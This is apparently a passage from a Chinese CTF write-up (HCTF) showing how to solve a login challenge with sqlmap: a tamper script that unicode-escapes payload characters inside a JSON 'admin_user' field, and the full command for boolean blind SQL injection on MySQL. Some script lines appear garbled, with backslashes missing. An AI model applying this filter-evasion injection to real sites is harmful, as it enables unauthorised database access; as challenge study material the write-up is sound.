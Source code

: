 ### 方法一（Ricterz）:

参考链接:`http://www.melodia.pw/?p=918`

通过sqlmap执行:

编写tamper:

```
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    data = '''{"admin_user":"admin%s","admin_pass":65};'''
    payload = payload.lower()
    payload = payload.replace('u', 'u0075')
    payload = payload.replace('o', 'u006f')
    payload = payload.replace('i', 'u0069')
    payload = payload.replace(''', 'u0027')
    payload = payload.replace('"', 'u0022')
    payload = payload.replace(' ', 'u0020')
    payload = payload.replace('s', 'u0073')
    payload = payload.replace('#', 'u0023')
    payload = payload.replace('>', 'u003e')
    payload = payload.replace('<', 'u003c')
    payload = payload.replace('-', 'u002d')
    payload = payload.replace('=', 'u003d')
    payload = payload.replace('f1a9', 'F1a9')
    payload = payload.replace('f1', 'F1')
    return data % payload
```

指定bool盲注:

`--technique=B`

指定数据库:

`-dbms=mysql`

sql识别:

`--not-string=window.location`

再加点线程:

`--thread=10`

最后:

`sqlmap -r 1.txt --tamper=hctf --dbms=mysql --thread=10 --technique=B --not-string=window.location --dbs`

### 方法二
